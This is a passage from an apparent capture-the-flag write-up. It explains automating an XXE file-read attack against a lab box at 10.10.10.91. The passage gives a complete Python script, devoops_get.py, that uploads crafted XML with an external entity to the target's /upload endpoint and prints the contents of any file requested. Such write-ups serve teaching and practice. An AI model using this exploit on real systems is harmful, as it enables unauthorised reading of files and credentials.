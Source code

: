 
It does the following:

  1. Start with `file` as existing file read in the xxe file.
  2. At the start of the line, set the new file you want to get.
  3. It then replaces the old file with the new file in `upload.xml`
  4. post the file and grep out the file contents from the response
  5. `tee` the output to the filename in the `loot/` path

### Better Automation: Python Script

In writing this post today, I decided that oneliner was too crude, and I
needed a quick python script. Here’s `devoops_get.py`:

    
    
    #!/usr/bin/python3
    
    import re
    import requests
    import sys
    
    if len(sys.argv) < 2:
        print(f"usage: {sys.argv[0]} [path to file]")
        sys.exit()
    
    file_name = sys.argv[1]
    
    xml = f'''<?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY>
      <!ENTITY bar SYSTEM "file://{file_name}">
    ]>
    
    <item>
    <Author>
    &bar;
    </Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </item>'''
    
    files = {'file': ('xxe.xml', xml, 'text/xml')}
    proxies = {'http': 'http://127.0.0.1:8080'}
    try:
        r = requests.post('http://10.10.10.91:5000/upload', files=files, proxies=proxies)
        if r.status_code == 200:
            pattern = re.compile(r"Author: \n(.*)\n Subject:", flags=re.DOTALL)
            print(re.search(pattern, r.text).group(1).strip())
            sys.exit()
        else:
            pass
    except requests.exceptions.ConnectionError:
        pass
    print("[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.")
    